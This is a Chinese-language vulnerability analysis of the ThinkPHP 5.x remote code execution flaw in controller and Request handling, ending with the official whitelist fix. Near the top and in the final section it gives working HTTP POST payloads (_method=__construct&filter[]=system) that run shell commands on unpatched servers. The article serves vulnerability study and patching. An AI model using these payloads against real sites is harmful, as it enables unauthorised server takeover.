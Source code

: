 本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **远程代码执行** 漏洞。

## 漏洞概要

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.0<=ThinkPHP5<=5.0.23** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整（以下payload未全测试，部分来自网络）：

```
# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

## 漏洞环境

通过官网下载 **ThinkPHP 5.0.23** 完整版代码，搭建好后，发送如下数据包，即可触发 **远程代码执行漏洞** 。

![1](ThinkPHP5漏洞分析之代码执行10/1.png)

## 漏洞分析

首先在官方发布的 **5.0.24** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2](ThinkPHP5漏洞分析之代码执行10/2.png)

我们可以查阅其 **commit** 记录，发现其改进了。接下来，我们直接跟进代码一探究竟。

![3](ThinkPHP5漏洞分析之代码执行10/3.png)

这次我们不再直接跟着 **payload** 进行漏洞分析，而是通过官方的些许描述和 **github commit** 记录，来还原漏洞。从官方的修复代码中，我们可以很明显的看出 **$method** 来自可控的 **$_POST** 数组，而且在获取之后没有进行任何检查，直接把它作为 **Request** 类的方法进行调用，同时，该方法传入的参数是可控数据 **$_POST** 。也就相当于可以随意调用 **Request** 类的部分方法。

![4](ThinkPHP5漏洞分析之代码执行10/4.png)

同时，我们观察到 **Request** 类的 **__construct** 方法中存在类属性覆盖的功能，这对我们之后的利用非常有利， **Request** 类的所有属性如下：

```php
protected $get                  protected static $instance;
protected $post                 protected $method;
protected $request              protected $domain;
protected $route                protected $url;
protected $put;                 protected $baseUrl;
protected $session              protected $baseFile;
protected $file                 protected $root;
protected $cookie               protected $pathinfo;
protected $server               protected $path;
protected $header               protected $routeInfo 
protected $mimeType             protected $env;
protected $content;             protected $dispatch 
protected $filter;              protected $module;
protected static $hook          protected $controller;
protected $bind                 protected $action;
protected $input;               protected $langset;
protected $cache;               protected $param   
protected $isCheckCache;    
```

我们继续跟进程序，会发现如果框架在配置文件中开启了 **debug** 模式（ `'app_debug'=> true` ），程序会调用 **Request** 类的 **param** 方法。这个方法我们需要特别关注了，因为 **Request** 类中的 `param、route、get、post、put、delete、patch、request、session、server、env、cookie、input` 方法均调用了 **filterValue** 方法，而该方法中就存在可利用的 **call_user_func** 函数。

![5](ThinkPHP5漏洞分析之代码执行10/5.png)

我们跟进 **param** 方法。发现其调用 **method** 方法（上图 **第16行** ）。其会调用 **server** 方法，而在 **server** 方法中把 **$this->server** 传入了 **input** 方法。这个 **$this->server** 的值，我们可以通过先前 **Request** 类的 **__construct** 方法来覆盖赋值。也就是说，可控数据作为 **$data** 传入 **input** 方法，然后 **$data** 会被 **filterValue** 方法使用 **$filter** 过滤器处理。其中 **$filter** 的值部分来自 **$this->filter** ，又是可以通过先前 **Request** 类的 **__construct** 方法来覆盖赋值。

![6](ThinkPHP5漏洞分析之代码执行10/6.png)

接下来就是我们很熟悉的 **filterValue** 方法调用 **call_user_func** 处理数据的过程，代码执行也就是发生在这里。

![7](ThinkPHP5漏洞分析之代码执行10/7.png)

上面我们讲的是开启框架调试模式下，触发 **远程代码执行** 漏洞，接下来我们再来看看如果没有开启框架调试模式，是否可以利用该漏洞。在 **run** 方法中，会执行一个 **exec** 方法，当该方法中的 **$dispatch['type']** 等于 **controller** 或者 **method** 时，又会调用 **Request** 类的 **param** 方法。

![8](ThinkPHP5漏洞分析之代码执行10/8.png)

跟进 **Request** 类的 **param** 方法，我们发现其后面的调用过程又会和先前的分析一样了，这里不再赘述。

![9](ThinkPHP5漏洞分析之代码执行10/9.png)

现在我们还要解决一个问题，就是如何让 **$dispatch['type']** 等于 **controller** 或者 **method** 。通过跟踪代码，我们发现 **$dispatch['type']** 来源于 **parseRule** 方法中的 **$result** 变量，而 **$result** 变量又与 **$route** 变量有关系。这个 **$route** 变量取决于程序中定义的路由地址方式。

![10](ThinkPHP5漏洞分析之代码执行10/10.png)

 **ThinkPHP5** 中支持 **5种** 路由地址方式定义：

| 定义方式                  | 定义格式                                                     |
| ------------------------- | ------------------------------------------------------------ |
| 方式1：路由到模块/控制器  | '[模块/控制器/操作]?额外参数1=值1&额外参数2=值2...'          |
| 方式2：路由到重定向地址   | '外部地址'（默认301重定向） 或者 ['外部地址','重定向代码']   |
| 方式3：路由到控制器的方法 | '@[模块/控制器/]操作'                                        |
| 方式4：路由到类的方法     | '\完整的命名空间类::静态方法' 或者 '\完整的命名空间类@动态方法' |
| 方式5：路由到闭包函数     | 闭包函数定义（支持参数传入）                                 |

而在 **ThinkPHP5** 完整版中，定义了验证码类的路由地址。程序在初始化时，会通过自动类加载机制，将 **vendor** 目录下的文件加载，这样在 **GET** 方式中便多了这一条路由。我们便可以利用这一路由地址，使得 **$dispatch['type']** 等于 **method** ，从而完成 **远程代码执行** 漏洞。

![11](ThinkPHP5漏洞分析之代码执行10/11.png)

所以最终的 **payload** 类似下面这样：

```http
POST /index.php?s=captcha HTTP/1.1
    ⋮
Content-Length: 59

_method=__construct&filter[]=system&method=get&get[]=ls+-al
# 或者
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

## 漏洞修复

官方的修复方法是：对请求方法 **$method** 进行白名单校验。

![3](ThinkPHP5漏洞分析之代码执行10/3.png)

## 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![12](ThinkPHP5漏洞分析之代码执行10/12.png)

## 参考

[ThinkPHP 5.x RCE 漏洞分析与利用总结](https://www.cnblogs.com/iamstudy/articles/thinkphp_5_x_rce_1.html) 